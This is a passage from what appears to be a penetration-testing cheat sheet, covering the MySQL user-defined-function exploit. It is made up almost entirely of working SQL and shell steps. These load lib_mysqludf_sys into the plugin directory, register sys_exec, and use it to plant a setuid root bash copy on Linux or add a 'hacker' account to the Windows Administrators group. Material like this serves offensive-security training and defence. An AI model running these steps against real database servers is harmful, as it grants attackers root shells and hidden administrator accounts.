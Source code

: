 ### 4.16.1. MySQL UDF Exploit

Exploiting User-Defined Functions in MySQL to get shell execution. First,
ready the UDF library (provides `sys_exec` function) locally on the server.

Prerequisites:
- Write permission (INSERT) for the database’s "func" table
- FILE privileges to copy our library (shared object) to the plugin directory

```sh
# find sqlmap's copy of lib_mysqludf_sys.so (or dll)
locate lib_mysqludf_sys
# found in /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
# copy the file into the server's /tmp/lib_mysqludf_sys.so for examples below
```

In MySQL terminal:

```sql
-- checking permissions
select * from mysql.user where user = substring_index(user(), '@', 1) ;
-- checking architecture
select @@version_compile_os, @@version_compile_machine;
-- or
show variables like '%compile%';
-- checking plugin directory (where to drop udf library)
select @@plugin_dir;
-- or
show variables like 'plugin%';

-- Linux
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
-- alternative: hex encode .so file and dump it directly:
select binary 0x<shellcode> into dumpfile '<plugin_dir>/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
-- then start local shell with `/tmp/rootbash -p` to get root

-- Windows
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
-- alternative: dump hex shellcode directly into file:
select binary 0x<shellcode> into dumpfile '<plugin_dir>/lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user hacker P@$$w0rd /add");
SELECT sys_exec("net localgroup Administrators hacker /add");
```

### 4.16.2. Grabbing MySQL Passwords
